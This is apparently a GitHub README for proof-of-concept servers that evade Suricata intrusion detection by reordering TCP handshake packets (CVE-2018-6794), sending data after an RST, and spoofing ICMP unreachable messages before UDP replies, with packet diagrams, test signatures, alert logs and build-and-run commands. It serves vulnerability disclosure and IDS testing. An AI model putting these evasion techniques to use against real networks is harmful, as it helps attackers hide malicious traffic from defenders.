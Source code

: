 ## Disclaimer

These programs is for Educational purpose ONLY. Do not use it without permission.

## inject_server: Proof-Of-Concept for CVE-2018-6794.

If as a server side you break a normal TCP 3 way handshake packets order and inject some response data before 3whs is complete then data still will be received by the client but some IDS engines may skip content checks on that.

```
Client    ->  [SYN] [Seq=0 Ack=0]           ->  Evil Server     # Client starts a TCP 3-way handshake
Client    <-  [SYN, ACK] [Seq=0 Ack=1]      <-  Evil Server     # Server responses as it should, but ...
Client    <-  [PSH, ACK] [Seq=1 Ack=1]      <-  Evil Server     # It sends HTTP response before the 3whs is completed
Client    <-  [FIN, ACK] [Seq=83 Ack=1]     <-  Evil Server     # Moreover it finishes TCP session 
Client    ->  [ACK] [Seq=1 Ack=84]          ->  Evil Server     # Client finishes TCP 3whs by sending ACK packet and confirms data from server
Client    ->  [PSH, ACK] [Seq=1 Ack= 4]     ->  Evil Server     # Then it sends a HTTP GET request as nothing wrong happened
```

Suricata IDS < 4.0.4 is prone to this issue: HTTP or Stream-TCP signatures will not alert on the injected content.
We do not see any alerts on an evil http response data if we apply the following signatures against PoC network traffic 

```
alert tcp any any -> any any (msg: "TCP BEEN NO_STREAM RULE"; flow: no_stream; content: "been"; sid: 1; )
alert tcp any any -> any any (msg: "TCP BEEN ONLY_STREAM RULE"; flow: only_stream; content: "been"; sid: 2; )
alert http any any -> any any (msg: "HTTP BEEN RULE"; content: "been"; sid: 3; )
alert tcp any any -> any any (msg: "TCP GET NO_STREAM RULE"; flow: no_stream; content: "GET"; sid: 4; )
alert tcp any any -> any any (msg: "TCP GET ONLY_STREAM RULE"; flow: only_stream; content: "GET"; sid: 5; )
alert http any any -> any any (msg: "HTTP GET RULE"; content: "GET"; sid: 6; )

03/02/2018-11:08:13.012990  [**] [1:1:0] TCP BEEN NO_STREAM RULE [**] [Classification: (null)] [Priority: 3] {TCP} 192.168.235.101:80 -> 192.168.235.1:56581
03/02/2018-11:08:13.013610  [**] [1:4:0] TCP GET NO_STREAM RULE [**] [Classification: (null)] [Priority: 3] {TCP} 192.168.235.1:56581 -> 192.168.235.101:80
03/02/2018-11:08:13.018914  [**] [1:5:0] TCP GET ONLY_STREAM RULE [**] [Classification: (null)] [Priority: 3] {TCP} 192.168.235.1:56581 -> 192.168.235.101:80
03/02/2018-11:08:13.018914  [**] [1:6:0] HTTP GET RULE [**] [Classification: (null)] [Priority: 3] {TCP} 192.168.235.1:56581 -> 192.168.235.101:80
```

## rst_server: Proof-Of-Concept for IDS bypass.

Windows clients are able to process TCP data even if they arrived shortly after TCP RST packet. Some IDSes process this correctly and try to match data after RST but some stops inpecting TCP stream after RST was received.

```
Client    ->  [SYN] [Seq=0 Ack=0]           ->  Evil Server     # Client starts a TCP 3-way handshake
Client    <-  [RST, ACK] [Seq=0x0 Ack=1]    <-  Evil Server     # Server responses with TCP RST
Client    <-  [SYN, ACK] [Seq=1 Ack=1]      <-  Evil Server     # And SYN-ACK shortly after RST
           ... 3whs continues ...
```

Suricata IDS is still prone to this issue: HTTP or Stream-TCP signatures will not alert on this TCP session.

```
alert tcp any any -> any any (msg: "TCP BEEN NO_STREAM RULE"; flow: no_stream; content: "been"; sid: 1; )
alert tcp any any -> any any (msg: "TCP BEEN ONLY_STREAM RULE"; flow: only_stream; content: "been"; sid: 2; )
alert http any any -> any any (msg: "HTTP BEEN RULE"; content: "been"; sid: 3; )
alert tcp any any -> any any (msg: "TCP GET NO_STREAM RULE"; flow: no_stream; content: "GET"; sid: 4; )
alert tcp any any -> any any (msg: "TCP GET ONLY_STREAM RULE"; flow: only_stream; content: "GET"; sid: 5; )
alert http any any -> any any (msg: "HTTP GET RULE"; content: "GET"; sid: 6; )

05/03/2018-19:13:43.270632  [**] [1:4:0] TCP GET NO_STREAM RULE [**] [Classification: (null)] [Priority: 3] {TCP} 192.168.235.1:53434 -> 192.168.235.101:80
05/03/2018-19:13:43.471128  [**] [1:1:0] TCP BEEN NO_STREAM RULE [**] [Classification: (null)] [Priority: 3] {TCP} 192.168.235.101:80 -> 192.168.235.1:53434
```

## icmp_server: Proof-Of-Concept for IDS bypass.

Server should reply with ICMP message type "Destination Unreachable" code "Port Unreachable" if a UDP packet was sent to a closed UDP port. IDS may interpret ICMP Unreachable answers on the same way as TCP RST packets and stop or limit traffic inspection of this UDP stream. If a normal UDP answer follows the ICMP message then attacker bypasses UDP checks of traffic from his server. Note that normal clients close connections if ICMP Dest. Unreachable was received so we interchange IP addresses and UDP ports in ICMP message's attached UDP so client does not accept such ICMP message but IDS does.

```
Client    ->  [UDP Req]                  ->  Evil Server     # Client starts UDP session by sending a packet 
Client    <-  [ICMP] [Type=3, Code=3]    <-  Evil Server     # Server responses with *improved* ICMP Destination Unreachable first
Client    <-  [UDP Resp]                 <-  Evil Server     # And with UDP answer as usual
```

Suricata IDS < 3.1.2 is prone to this issue: UDP signatures will not match on packets from Evil Server.

```
alert udp any any -> any any (msg: "UDP BEEN RULE"; content: "been"; sid: 1; )
alert udp any any -> any any (msg: "UDP HELLO RULE"; content: "hello"; sid: 2; )

05/03/2018-03:44:11.016635  [**] [1:2:0] UDP HELLO RULE [**] [Classification: (null)] [Priority: 3] {UDP} 192.168.235.100:46599 -> 192.168.235.101:80
```

This techniques may be applied for other Intrusion Detection or Network Monitoring tools and systems.

## Author and Credits
Kirill Shipulin from Positive Technologies (@kirill_wow)

## Usage
```
git clone https://github.com/kirillwow/ids_bypass.git
cd ids_bypass
make
# inject server
sudo iptables -A OUTPUT -p tcp --sport 80 --tcp-flags RST RST -j DROP
sudo ./inject_server # print help
sudo ./inject_server -i eno16777736 -p 80
# rst server
sudo iptables -A OUTPUT -p tcp -o eno16777736 --sport 80 -m owner --uid-owner 0 --tcp-flags RST RST -j ACCEPT
sudo iptables -A OUTPUT -p tcp -o eno16777736 --sport 80 --tcp-flags RST RST -j DROP
sudo ./rst_server # print help
sudo ./rst_server -i eno16777736 -p 80
# icmp server
sudo iptables -A OUTPUT -o eno16777736 -p icmp --icmp-type destination-unreachable -m owner --uid-owner 0 -j ACCEPT
sudo iptables -A OUTPUT -o eno16777736 -p icmp --icmp-type destination-unreachable -j DROP
sudo ./icmp_server # print help
sudo ./icmp_server -i eno16777736 -p 80
```


![alt PoC](https://github.com/kirillwow/ids_bypass/raw/master/screenshot.png)
